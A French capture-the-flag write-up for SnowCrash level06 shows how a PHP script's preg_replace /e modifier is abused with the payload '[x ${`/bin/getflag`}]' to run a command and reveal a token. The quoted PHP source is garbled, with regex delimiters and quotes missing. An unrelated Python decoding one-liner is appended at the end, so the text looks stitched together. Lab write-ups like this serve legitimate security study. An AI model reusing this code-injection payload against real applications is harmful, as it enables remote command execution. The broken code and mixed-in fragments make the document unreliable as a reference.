 # level06

1) Information trouvée dans `/home/level06/` :

```bash
level06  level06.php
level06@SnowCrash:~$ strings level06 | grep level06
/home/user/level06/level06.php
```

2) Analyse du fichier `level06.php`

Le binaire `level06` peut executer du code php via l'expand (option `e`) de `preg_replace`.

```php
function y($m) { $m = preg_replace(.,  x , $m); $m = preg_replace(@,  y, $m); return $m; }

function x($y, $z) { 
  $a = file_get_contents($y); 
  $a = preg_replace(([x (.*)])e, y(2), $a); 
  $a = preg_replace([, (, $a); 
  $a = preg_replace(], ), $a); 
  return $a; 
}
$r = x($argv[1], $argv[2]); print $r;

```
3) Exploitation pour récupérer le token :

* On crée une chaine pour `preg_replace` :```echo '[x ${`/bin/getflag`}]'```

On l'exécute :
```bash
level06@SnowCrash:~$ echo '[x ${`/bin/getflag`}]' | ./level06 php://stdin 2>&1 | grep token
PHP Notice:  Undefined variable: Check flag.Here is your token : ...
```

4) Token découvert :

Le token est `wiok45aaoguiboiki2tuin6ub`.


python -c 'import sys; d=bytearray(open("token","rb").read()); sys.stdout.write("".join(chr((b-i)&0xff) for i,b in enumerate(d)))' > /tmp/tokendecyphered